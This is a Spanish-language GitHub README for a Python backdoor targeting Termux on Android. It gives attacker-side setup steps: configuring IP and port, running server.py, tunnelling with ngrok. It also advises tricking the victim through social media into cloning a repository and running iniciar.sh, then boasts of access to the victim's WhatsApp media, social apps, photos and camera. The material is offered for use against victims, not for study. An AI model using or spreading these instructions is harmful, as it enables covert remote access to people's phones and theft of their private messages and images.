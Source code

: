 # Backdoor-Python
Un backdoor en python para termux , su uso no es mi responsabilidad ejecutar python2 server.py desde la maquina atacante configurar ip y puerto de la red local o para fuera de la red con ngrok tcp ,enviar herramienta a la victima usar ig social para que ejecute iniciar.sh.

#Script solo valida para Termux

#ATACANTE
Clonar el repositorio en el atacante

git clone https://github.com/MRX90902WX/Backdoor-Python

configurar la ip y el puerto en los dos archivos server.py y backdoor.py

Ejecutar python2 server.py

#VICTIMA
Clonar el repositorio que crearas tu con los archivos backdoor.py y Config.sh y iniciar.sh

git clone https://github.com/.....

bash iniciar.sh

*UNA VES ECHO ESTO YA TIENES ACESSO A SU TERMUX
MEDIANTE UNA PUERTA TRASERA 
PUEDES DESCARGAR IMAGENES, AUDIOS DEL WHATSAP DE LA VICTIMA
ASI IGUAL DE FACEBOOK,INSTAGRAM,TELEGRAM Y LA CAMARA

(carpetas hackeadas)

■ Pictures
■ Camera
■ com.whatsapp

Créditos a @svpirate503

Configurar esa última iniciar.sh si la victima usa
WhatsApp bussines 

#Bye.

